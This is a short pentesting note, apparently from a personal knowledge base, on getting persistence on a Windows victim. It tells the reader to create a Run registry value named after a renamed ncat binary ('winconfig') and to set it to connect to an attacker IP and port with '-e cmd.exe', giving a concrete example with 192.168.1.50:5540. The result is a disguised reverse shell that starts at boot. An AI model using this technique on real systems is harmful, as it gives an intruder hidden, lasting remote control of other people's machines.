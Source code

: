 ```yaml
---
title: Create a Registry
author: amandaguglieri
draft: false
TableOfContents: true
tag: #pentesting #privilegeescalation
---
```


# Create a Registry

Registries in the victim machine may be used to save a connection to the attacker machine.

### Regedit

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Right-Button > New > String value

We name it exactly like the ncat.exe file (if we renamed it to winconfig, then we call this registry winconfig>

We edit the registry and we add the path to the executable file and some commands  in the Value data:

“C:\Windows/System32\winconfig.exe <attacker IP> <port> -e cmd.exe”

For instance: “C:\Windows/System32\winconfig.exe 192.168.1.50 5540 -e cmd.exe”
```

### Python script that add a binary to the Registry

See [Making your binary persistent](python/making-your-binary-persistent.md)
